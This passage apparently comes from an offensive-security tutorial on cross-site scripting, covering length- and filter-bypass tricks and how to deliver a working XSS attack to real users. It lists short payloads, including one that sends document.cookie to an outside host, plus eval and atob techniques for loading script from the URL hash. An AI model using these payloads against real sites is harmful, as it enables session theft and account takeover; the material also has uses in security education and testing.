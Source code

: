 
## ✅ Real-World Applications

| Scenario                               | Bypass You Can Use                                               |
| -------------------------------------- | ---------------------------------------------------------------- |
| Only 30 chars allowed?                 | Use `open('//a/'+document.cookie)`                               |
| Every input field is limited?          | Combine payload across multiple fields                           |
| Filters block `<`, `>`, `"`, etc?      | Use `eval(location.hash.slice(1))` or `eval(unescape(location))` |
| Field allows only basic alphanumerics? | Base64 encode your payload and decode via `atob()`               |

---

## 🧠 TL;DR

* App limiting your input size? You can still hit it with:

  1. **Minimal JS payloads**
  2. **Split payloads across inputs using `/* ... */`**
  3. **Load your script from the URL hash (`#`) using DOM XSS**

* These techniques bypass both **input length** and **filtering logic**—especially when paired with prior obfuscation methods.

---

## 🎯 Delivering Working XSS Exploits

When you're testing XSS manually — especially using tools like **Burp Repeater** — you're usually:

* Replaying requests
* Modifying inputs bit-by-bit
* Watching how the app reflects that input in the response

But there's a difference between:

* ✅ **Proving** the XSS works to yourself (PoC)
* 🚀 **Delivering** a working attack to a real user

This section shows how to **bridge that gap** — even when:

* The entry point isn’t easy to control (e.g., Referer or Cookie headers)
* Users have modern browsers with **XSS protections**
* The vulnerable page is not part of the *sensitive* functionality

---

## 🧠 Challenge #1: Escalating Attack Scope to Other Pages

### 🔥 Problem:

You find XSS in a **low-value, public page**. But the sensitive data (e.g., account info, money transfers) is in **authenticated sections**.
